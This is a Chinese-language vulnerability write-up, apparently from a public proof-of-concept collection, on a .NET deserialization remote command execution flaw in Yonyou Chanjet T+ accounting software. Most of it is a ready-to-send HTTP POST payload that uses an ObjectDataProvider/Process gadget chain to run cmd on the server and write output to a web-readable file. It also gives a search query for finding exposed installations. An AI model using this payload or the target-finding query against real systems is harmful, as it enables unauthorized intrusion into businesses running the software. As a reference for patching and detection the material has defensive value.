 # 用友 畅捷通T+ GetStoreWarehouseByStore 远程命令执行漏洞

## 漏洞描述

用友 畅捷通T+ GetStoreWarehouseByStore 存在 .net反序列化漏洞，导致远程命令执行，控制服务器

## 漏洞影响

用友 畅捷通T+

## 网络测绘

```
app="畅捷通-TPlus"
```

## 漏洞复现

登录页面

![image-20230704111641427](./images/image-20230704111641427.png)

验证POC

```
POST /tplus/ajaxpro/Ufida.T.CodeBehind._PriorityLevel,App_Code.ashx?method=GetStoreWarehouseByStore HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/34.0.1847.137 Safari/4E423F
Connection: close
Content-Length: 668
X-Ajaxpro-Method: GetStoreWarehouseByStore
Accept-Encoding: gzip

{
  "storeID":{
    "__type":"System.Windows.Data.ObjectDataProvider, PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35",
    "MethodName":"Start",
    "ObjectInstance":{
      "__type":"System.Diagnostics.Process, System, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089",
      "StartInfo":{
        "__type":"System.Diagnostics.ProcessStartInfo, System, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089",
        "FileName":"cmd",
        "Arguments":"/c whoami > C:/Progra~2/Chanjet/TPlusStd/WebSite/2RUsL6jgx9sGX4GItQBcVfxarBM.txt"
      }
    }
  }
}
```

![image-20230704111653392](./images/image-20230704111653392.png)

```
/tplus/xxx.txt
```

![image-20230704111706616](./images/image-20230704111706616.png)